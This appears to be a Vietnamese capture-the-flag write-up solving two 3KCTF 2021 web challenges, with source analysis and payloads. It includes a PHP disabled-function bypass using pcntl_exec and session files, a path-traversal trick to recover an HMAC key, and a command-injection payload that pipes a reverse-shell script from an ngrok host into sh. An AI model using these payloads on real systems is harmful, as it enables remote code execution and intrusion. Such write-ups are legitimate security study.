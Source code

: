 ```yaml
---
layout: post
title: "[WRITEUP 3KCTF 2021]: WEB"
categories: CTF
toc: true
---
```

Vì một số công việc cá nhân nên mình viết writeup sau ctf end khá lâu nên mình sẽ tự deploy một số challenge và một số mình chỉ phân tích code và chỉ ra cách exploit.

- Tất cả source của từng bài mình để ở đây nhé -> [src](https://github.com/DauHoangTai/CTF/tree/master/2021/3KCTF)
## Challenge Online_comliper
- Vì mình deploy lại ở local nên mình đi thẳng vào phân tích code của author cung cấp nhé

### Analysis Source
Chúng ta được cung cấp một source và code server được viết bằng python. Chú ý thì thấy có 2 enpoint
![image](https://user-images.githubusercontent.com/54855855/121495607-f5a6e400-ca03-11eb-85a1-16bc6c66d507.png)
Ở đoạn code này thì thấy có 2 hàm là `get_random_string` và `check_file`, 2 hàm này lần lượt có chức năng là tạo ra một chuỗi random và kiểm tra file đó có tồn tại hay không.
![image](https://user-images.githubusercontent.com/54855855/121495928-34d53500-ca04-11eb-9f83-ba1d545fb829.png)
Endpoint đầu tiền là `/save`. Đoạn code này chúng ta có 2 tham số để có thể nhập vào đo là `c_type` và `code`.
c_type nhận php hoặc python nhưng đoạn elif đã được comment lại vậy là chúng ta chỉ có thể nhập `php` vào. Sau đó khi chúng ta truyền tham số vào `code` thì sẽ được check len (phải < 100), tiếp tục filename được gán bằng chuỗi ramdom được tạo bằng hàm mình đã mô tả ở trên. Cuối cùng ghi nhưng gì mình truyền ở `code` vô file vừa được tạo.
![image](https://user-images.githubusercontent.com/54855855/121501634-9b108680-ca09-11eb-981d-a6a54f71bdf4.png)
Ở endpoint `compile` này thì có 2 tham số có thể control là `c_type` và `filename`. `c_type` chúng ta có thể nhập vào là php và py.
Nói chung ở đoạn code này là sẽ thực thi file mà mình đã tạo ở `/save`.
Điều lạ ở đây là lúc tạo file thì chỉ có tạo file php không có python nhưng lúc compile lại có.
Tiếp tục chú ý file php.ini thì hầu như các function có thể RCE đã bị disable.

### Solution
Ở trong php có 1 function là `get_defined_functions` để list ra các function. Sau khi mình list ra và filter các function đã bị disable thì thấy được có một số fucntion không được filter như: `pcntl_exec, session_id, session_start`. Ở đây mình sử dụng `pcntl_exec` để RCE

### Payload
`/save` -> `c_type=php&code=<?php+pcntl_exec('/bin/ls',['/']);?>`
`/compile` -> `c_type=php&filename=vmfxqs.php`
- Cũng có thể sử dụng `session_id,session_start` như sau:
`/save` -> `c_type=php&code=<?php+session_id('test');session_start();$_SESSION['import+os;os.system("ls+/")#']='s'?>`
khi tạo session thì thường là nó sẽ được lưu trong tmp với filename là sess_id
`/compile` -> `c_type=php&filename=/tmp/sess_test`

## Challenge Emoij
- Source mình đã ở trên nên ai muốn test thì chỉ cần download về, sau đó cd tới thư mục emoij và cuối cùng là gõ lệnh `php -S localhost:8080`.

### Analysis Source
![image](https://user-images.githubusercontent.com/54855855/122628659-8a36d380-d0e1-11eb-9dfc-24566cdf0227.png)
Đoạn code này thì chúng ta thấy được secret và flag đã được giấu đi (tất nhiên :v ). Ở hàm `fetch_and_parse` thì đọc content từ link github bằng hàm `file_get_contents` sau đó trả về mảng giá trị nằm trong "" của src.
![image](https://user-images.githubusercontent.com/54855855/122628670-a20e5780-d0e1-11eb-9e74-b539d9c72558.png)
Ở đây thì có 3 tham số nhận vào là `url, key, dir`. Nói chúng đoạn này sẽ gán giá trị trả về là 1 mảng cho biến emoijList. Còn nếu như không có dir thì sẽ kiểm trả `key` mình nhập vào có bằng với `hash_hmac('sha256', $url, $secret)` hay không.

### Solution
Điều chú ý ở đây ![image](https://user-images.githubusercontent.com/54855855/122628754-35478d00-d0e2-11eb-99b4-aa2e70696fa1.png)
là đoạn code này nó sẽ duyệt qua mảng đó mà in ra giá trị và key là `hash_hmac('sha256', $v, $secret)` => mình có thể control được cái $v và => sẽ tìm đc giá trị của hash_hmac với giá trị mình đã truyền vô. từ đó mình tìm có thể biết được cái key cần truyền vào là gì.
Step 1: tạo 1 repo github với nội dung như sau: mình đã tạo sẵn -> https://raw.githubusercontent.com/DauHoangTai/3kctf/main/index.html
Step 2: Mình sẽ path travel để server đọc content ở repo của mình. khi đó sẽ lấy được giá trị của hash_hmac => mình có key

### Payload
`?dir=../../../DauHoangTai/3kctf/main/index` => tìm được key của value này.
![image](https://user-images.githubusercontent.com/54855855/122646717-d66a2e00-d14a-11eb-9093-a7d28c83ad2f.png)
```
?url="%3bcurl+https%3a//reverse-shell.sh/0.tcp.ngrok.io%3a12756+|+sh%3b+%23&key=e5bd633a5ad60d3e0ad64b04fda2ba9236e8ad07a74386ab5fc91d6425e4a48f
```
Vậy đã là thành công.
![image](https://user-images.githubusercontent.com/54855855/122646886-b0915900-d14b-11eb-9910-24508569d68c.png)
